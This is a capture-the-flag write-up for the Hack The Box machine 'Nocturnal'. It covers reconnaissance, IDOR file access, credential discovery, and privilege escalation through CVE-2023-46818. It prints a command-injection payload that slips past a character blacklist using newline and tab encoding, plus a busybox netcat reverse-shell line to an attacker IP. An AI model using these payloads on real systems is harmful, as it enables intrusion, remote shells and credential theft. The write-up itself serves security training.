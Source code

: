 # HTB - Nocturnal
<img width="1400" height="705" alt="image" src="https://github.com/user-attachments/assets/db53df5b-edf3-4d4d-a337-637ccceea298" />



## Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was conducted across all ports using the following command:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
````

![Full port scan](images/Pasted%20image%2020250727143751.png)

Once open ports were identified, a service/version detection scan was executed against the relevant ports:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![Service detection](images/Pasted%20image%2020250727143936.png)

The scan revealed the hostname `http://nocturnal.htb`. The hostname was added to the `/etc/hosts` file for name resolution:

![Hosts entry](images/Pasted%20image%2020250727144211.png)

---

## Web Exploration

Accessing the domain:

![Website homepage](images/Pasted%20image%2020250727144235.png)

A test user account was created:

![Test user created](images/Pasted%20image%2020250727144334.png)

The upload functionality accepted the following file extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![Upload filetypes](images/Pasted%20image%2020250727144655.png)

By analyzing the request structure and upload behavior, it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users:

![Parameter tampering](images/Pasted%20image%2020250727145006.png)

---

## Enumeration and File Discovery

A brute-force attack was launched to discover possible users and filenames:

![Brute-force](images/Pasted%20image%2020250727152938.png)

Discovered:

* **Username:** `amanda`
* **File:** `privacy.odt`

![File found](images/Pasted%20image%2020250727153012.png)

The file was accessed and downloaded using:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![File downloaded](images/Pasted%20image%2020250727153131.png)

Upon inspection, the file revealed Amanda’s credentials:

![Credentials extracted](images/Pasted%20image%2020250727153219.png)

With these credentials, access to an admin panel was granted:

![Admin access](images/Pasted%20image%2020250727153308.png)

---

## Vulnerability in Admin Panel

Reviewing `admin.php` exposed a vulnerable **backup feature**:

![Backup vulnerability](images/Pasted%20image%2020250727153329.png)

### Vulnerability Summary

* Admins could generate ZIP backups of the directory, protected by a user-supplied password.
* The password was passed to the `zip` command inside a `proc_open()` shell call.
* Input sanitization via `cleanEntry()` was weak, blacklisting characters like `;`, `&`, `|`, `$`, spaces, etc.
* No robust escaping or whitelisting was applied.

To test for command injection, the POST request was intercepted and the `password` parameter was modified as follows:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
...
Content-Type: application/x-www-form-urlencoded
...

password=%0abash%09-c%09"whoami"&backup=
```

**Explanation of payload:**

* `%0a`: newline to terminate previous input
* `%09`: URL-encoded tab character
* `bash -c "whoami"`: command to be executed

![Command injection test](https://miro.medium.com/v2/resize\:fit:700/1*v9oRPOPOuTWfR2fwdcHlHQ.png)

---

## Reverse Shell

Once command injection was confirmed, a reverse shell was executed using BusyBox netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![Payload sent](https://miro.medium.com/v2/resize\:fit:388/1*GEcOas5C_hPieT-HceJgtQ.png)

Listener on the attacking machine:

![Listener](images/Pasted%20image%2020250727143254.png)

A shell was obtained, and SQLite was used to dump user hashes from the internal database. The user containing the flag was **tobias**:

![Database dump](images/Pasted%20image%2020250727143507.png)

The password hash was cracked using [https://hashes.com](https://hashes.com/):

![Hash cracked](images/Pasted%20image%2020250727143326.png)

SSH access was achieved using Tobias’s credentials:

```bash
ssh tobias@nocturnal.htb
```

![SSH session](images/Pasted%20image%2020250727153703.png)

---

## Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port **8080**. To access it, an SSH tunnel was created:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![Port forwarding](https://miro.medium.com/v2/resize\:fit:700/1*rE930kDY1XVJl9wmgZ6ErA.png)

The forwarded port revealed an **ISPConfig** interface:

* **Username:** admin
* **Password:** slowmotionapocalypse

![ISPConfig login](https://miro.medium.com/v2/resize\:fit:361/1*8EfRE_MuT-yDx7WsCSFRcA.png)

---

## Remote Code Execution (RCE)

ISPConfig was running a version vulnerable to:

> **CVE-2023-46818** — Remote Code Execution

A public exploit was retrieved from GitHub:

[https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit successfully escalated privileges to **root**, completing the challenge.

![Root access](https://miro.medium.com/v2/resize\:fit:700/1*3UbdM_Teou82L1XZcnoYPA.png)
